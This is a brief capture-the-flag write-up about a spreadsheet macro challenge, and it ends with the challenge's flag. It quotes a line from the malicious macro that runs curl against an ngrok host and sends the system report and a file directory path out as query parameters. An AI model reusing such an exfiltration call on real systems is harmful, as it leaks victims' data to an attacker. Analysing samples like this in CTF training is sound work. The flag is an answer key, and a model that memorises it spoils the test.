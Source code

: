 ## Logistics

#### Challenge Difficulty: Medium
#### Topic: macro, xlsx
#### Author: d151nt3gr4t0r

The challenge provides us with an ods file. This file is an excel file which contains one macro with a malicious sample. It's possible to extract the macro from the excel file, safely using uletools.

Analyzing the macro, eventually you will stumble across this code:
`GDHJFDKGD.Run("curl http://mnzwg63ngrrxembvl42hem27oazxezrtmn2gy6k7myyw4m35.ngrok.io/?os=" + SysReport + "&rev=5.4" + "&ret=" + MY_FILEDIR, 1 ,true)`


In order to decode this value, you need to first uppercase all the sequence and then base32 decode it.

Flag: csc{m4cr05_4r3_p3rf3ctly_f1n3}